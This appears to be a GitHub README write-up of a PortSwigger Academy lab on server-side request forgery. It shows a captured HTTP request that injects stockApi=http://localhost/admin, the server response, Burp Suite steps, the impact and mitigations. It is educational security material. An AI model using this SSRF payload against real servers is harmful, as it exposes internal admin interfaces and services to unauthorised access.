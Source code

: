 # 📘 Scenario 1: SSRF to Access Internal Resources via `localhost`

## 🔎 Vulnerability Description

In this scenario, the web application provides a feature to check product stock by making a server-side request via a parameter called `stockAPI`. However, it fails to validate or restrict the input, making it vulnerable to Server-Side Request Forgery (SSRF).

> **Vulnerability Type:** Input Validation  
> **OWASP ID:** A10:2021 – SSRF  
> **Risk Level:** Medium  

---

## 🔧 Target Link
**URL:**
🔗 https://0ae0004b0408113f8332ce8e00a6008c.web-securityacademy.net/product/stock

---

## 📥 HTTP Request

```http
POST /product/stock HTTP/2
Host: 0ae0004b0408113f8332ce8e00a6008c.web-security-academy.net
Cookie: session=RVT6kuMP2cTfbZBCaZkJZDYjfro1m6K8
Content-Length: 31
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0ae0004b0408113f8332ce8e00a6008c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ae0004b0408113f8332ce8e00a6008c.web-securityacademy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
stockApi=http://localhost/admin
```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=I4iONnYtSO3P6la1YQwMakzkd2gBpOt0; Secure; HttpOnly;
SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3070
```
---

## 🧪 Exploitation Steps

Open Burp Suite and intercept the request to `/product/stock`.

Modify the `stockApi` parameter to target an internal host:
```
stockApi=http://localhost/admin
```
Forward the request and analyze the response.

If successful, the server responds with internal data not normally exposed to users.

## 💥 Potential Impact

- Exposes internal systems or management interfaces.

- May lead to information disclosure or privilege escalation.

- Can serve as a pivot point to attack internal services (e.g., metadata servers, Redis, etc.).

## ✅ Mitigation Suggestions
Do not trust user-supplied URLs for server-side requests.

Implement allowlists of safe domains/IPs for outbound requests.

Block internal ranges such as:

`127.0.0.0/8` (localhost)

`10.0.0.0/8`, `192.168.0.0/16` (private networks)

`169.254.0.0/16` (link-local)

Sanitize all URL input and ensure redirects are not blindly followed.

Use a proxy layer or SSRF-aware firewall to filter requests.

## 📸 Screenshot

![Exploitation Image Of Scenario 1](https://github.com/hovikhanh/ssrf-demo/images/Picture1.png "Exploitation Image Of Scenario 1")

## 🔗 References

[OWASP SSRF Guide](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)

[PortSwigger Web Security Academy – SSRF Labs](https://portswigger.net/web-security/ssrf)
